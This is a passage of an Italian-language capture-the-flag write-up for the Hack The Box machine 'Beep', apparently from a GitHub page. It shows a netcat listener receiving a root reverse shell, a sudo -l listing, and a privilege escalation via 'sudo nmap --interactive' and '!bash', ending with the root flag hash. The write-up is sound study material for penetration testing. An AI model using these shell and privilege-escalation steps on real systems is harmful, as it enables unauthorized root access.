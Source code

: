 e otteniamo una shell con privilegi root

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 4444
listening on [any] 4444 ...
^[connect to [10.10.14.34] from (UNKNOWN) [10.10.10.7] 41461
bash: no job control in this shell
[root@beep webmin]# whoami
root
[root@beep webmin]# 
```


# PRIVESC

## Privesc Nmap

Una volta dentro proviamo a lanciare `sudo -l`

```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

```

Vediamo che possiamo eseguire [Nmap] come sudo 
Eseguirò nmap come root e poi ![command] per eseguire un comando, come bash:

```bash
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
cat /root/root.txt
7d0093408edeb6490ac3af81b5caca1a

```
